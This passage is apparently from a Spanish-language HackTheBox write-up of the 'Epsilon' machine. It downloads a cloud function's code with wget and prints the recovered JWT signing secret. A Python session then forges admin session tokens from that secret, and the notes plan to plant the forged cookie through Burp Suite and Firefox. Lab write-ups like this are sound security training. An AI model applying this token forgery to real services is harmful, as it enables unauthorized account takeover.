 ```bash
    },
    "Tags": {}
}
```

Si le damos a http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code nos baja un archivo. Lo voy a decargar dentro de mis evidencias

wget http://cloud.epsilon.htb/2015-03-31/functions/costume_shop_v1/code
unzip code.zip

Una vez que tenemos el secret podemos crear el jwt. Creo que con jwt.encode primero será suficiente pero voy a probar con admin porque lo vi en alguna parte de las evidencias.

```python
python3
Python 3.10.5 (main, Jun  8 2022, 09:26:22) [GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> secret = "RrXCv`mrNe!K!4+5`wYq"
>>> jwt.encode({"username":"0xdf"},secret, algorithm='HS256')
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IjB4ZGYifQ.0kQYuCxPdN6bYT66kYg3lF-fjFRU9YvI30hNN4t77RE'
>>> jwt.encode({"username":"admin"},secret, algorithm='HS256')
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg'
>>> jwt.encode({"username":"admin", "password":"admin"},secret, algorithm='HS256')
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJhZG1pbiJ9.epQK9DdQ_jLPM7pFZ2AJLfsv4LbS-F9FxWvL6VIoWRY'
```
vimos lo de admin como nombre aquí:

![](2022-06-30-12-39-49.png)

Ahora vamos a ir a burpsuite a poner el auth a ver que pasa... ¿Por qué auth? 

![](2022-06-30-12-41-00.png)

## modificar una cookie con los valores que necesitamos

En firefox
1. vamos a firefox cambiamos las cookies como aparece en la imagen y tener en cuenta que la url es /home
